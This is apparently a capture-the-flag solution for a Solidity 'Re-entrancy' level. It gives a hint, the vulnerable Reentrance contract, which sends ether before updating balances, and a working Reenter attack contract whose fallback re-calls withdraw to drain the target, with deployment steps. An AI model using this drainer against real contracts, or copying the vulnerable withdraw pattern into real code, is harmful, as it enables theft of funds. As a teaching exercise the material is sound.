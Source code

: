 # Re-entrancy

**HINT:** Look at the order of the Withdraw function (CHECKS -> INTERACTION -> EFFECTS)
<details>
<summary>Answer</summary>
<p>

```
pragma solidity ^0.6.4;



contract Reentrance {
  

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to] + msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result, bytes memory data) = msg.sender.call.value(_amount)("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  fallback() external payable {}
}


contract Reenter {
    Reentrance reentranceContract;
    uint public amount = 1 ether;    //withdrawal amount
    
    constructor(address payable reentranceContactAddress) public payable {
        reentranceContract = Reentrance(reentranceContactAddress);
    }

function initiateAttack() public {
    reentranceContract.donate{value:amount}(address(this));//need to increase the balances account in order to pass the first if statement of the withdraw function
    reentranceContract.withdraw(amount); 
  }
  
  fallback() external payable {
    if (address(reentranceContract).balance >= 0 ) {
        reentranceContract.withdraw(amount); 
    }
   }
}
```
add your instance address and deploy with 1 ether then attack
</p>
</details>